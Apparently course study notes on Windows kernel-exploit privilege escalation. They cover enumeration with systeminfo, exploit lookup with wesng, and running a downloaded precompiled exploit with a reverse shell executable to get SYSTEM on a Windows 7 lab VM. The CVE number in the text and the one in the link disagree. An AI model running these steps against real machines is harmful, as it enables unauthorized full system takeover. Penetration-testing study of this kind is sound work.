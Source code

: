 Kernels are the core of any operating system.

Think of it as a layer between application software and the actual computer hardware.

The kernel has complete control over the operating system.

Exploiting a kernel vulnerability can result in execution as the SYSTEM user.

<mark style="background: #ADCCFFA6;">Finding Kernel Exploits</mark>

Finding and using kernel exploits is usually a simple process:
1. Enumerate Windows version / patch level (systeminfo).
2. Find matching exploits (Google, ExploitDB, GitHub).
3. Compile and run.
Beware though, as Kernel exploits can often be unstable and may be one-shot or cause a system crash.


<mark style="background: #ADCCFFA6;">Tools</mark>

Windows Exploit Suggester:
https://github.com/bitsadmin/wesng
Precompiled Kernel Exploits:
https://github.com/SecWiki/windows-kernel-exploits
Watson: https://github.com/rasta-mouse/Watson


<mark style="background: #ADCCFFA6;">Privilege Escalation</mark>


(Note: These steps are for Windows 7)
1.Extract the output of the systeminfo command:
> systeminfo > systeminfo.txt
2.Run wesng to find potential exploits:
 python wes.py systeminfo.txt -i 'Elevation
of Privilege' --exploits-only | less

3.Cross-reference results with compiled exploits:
https://github.com/SecWiki/windows-kernel-exploits

4.Download the compiled exploit for CVE-2018-8210 onto the Windows VM:
https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2018-8120/x64.exe

5.Start a listener on Kali and run the exploit, providing it with the reverse shell executable, which should run with
SYSTEM privileges:
> .\x64.exe C:\PrivEsc\reverse.exe



